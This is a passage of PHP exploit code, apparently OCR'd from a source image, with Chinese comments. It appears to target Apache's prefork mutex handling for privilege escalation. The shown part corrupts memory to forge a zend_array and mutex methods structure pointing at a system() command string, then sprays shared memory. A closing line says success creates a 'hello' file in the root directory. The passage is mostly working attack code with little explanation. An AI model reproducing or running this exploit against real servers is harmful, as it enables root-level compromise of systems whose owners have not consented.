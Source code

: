     //将混合结构zend_array的meth指向apr_proc_mutex_unix_lock_methods_t
    $meth = $evil_zend_array_start_addr + 0x8;
    echo "meth(0x".dechex($meth).") => mutex_mthods_struct\n";
    write_mem_qword($meth,$evil_mutex_methods_start_addr);
    write_mem_qword($evil_zend_array_start_addr,0x1);

    //将prefork_child_bucket中的mutex指向混合结构zend_array
    $mutex = $evil_parent_start_addr + 0x10;
    echo "mutex(0x".dechex($mutex).") => zend_array struct\n";
    write_mem_qword($mutex,$evil_zend_array_start_addr);

    //将混合结构prefork_child_bucket中的properties指向zend_array结构
    $properties = $evil_parent_start_addr + 0x20+0x10;
    echo "properties(0x".dechex($properties).") => zend_array struct\n";
    write_mem_qword($properties,$evil_zend_array_start_addr);

    //system 字符串 写入
    for($i = 0;$i<strlen($evil_string);$i++){
        $b = ord($evil_string[$i]);
        write_mem($evil_string_start_addr+$i,$b);
    }
    write_mem($evil_string_start_addr+$i,0);

    //将zend_array中的arData指向system字符串
    $ar_data = $evil_zend_array_start_addr + 0x10;
    echo "ar_data(0x".dechex($ar_data).") => evil string\n";
    write_mem_qword($ar_data,$evil_string_start_addr);

    //将zend_array中的nNumUsed设置为1，（自行分析代码去）
    $nNumUsed = $evil_zend_array_start_addr + 0x18;
    write_mem_qword($nNumUsed,1);


    //堆喷
    echo "\nSpraying the shared memory start\n\n";

    $shm_region = get_mem_region("/dev/zero");
    $evil_shm_start_addr = $evil_string_end_addr;
    $evil_shm_end_addr = $shm_region[0][1];
    $evil_shm_size = $evil_shm_end_addr - $evil_shm_start_addr;

    $evil_shm_mid_addr = $evil_shm_start_addr + 8*((int)(((int)($evil_shm_size/2))/8) + 1);

    echo "evil_shm_start:0x".dechex($evil_shm_start_addr)."\n";
    echo "evil_shm_end:0x".dechex($evil_shm_end_addr)."\n";
    echo "evil_shm_size:".dechex($evil_shm_size)."\n";

    for($i = 0;$i<$evil_shm_size;$i+=8){
        write_mem_qword($evil_shm_start_addr+$i,$evil_zend_array_start_addr);
    }


    echo "evil_shm_mid_addr:0x".dechex($evil_shm_mid_addr)."\n";

    echo "bucket:".dechex($bucket)."\n";
    ?>

利用成功时，会在根目录下，创建hello文件
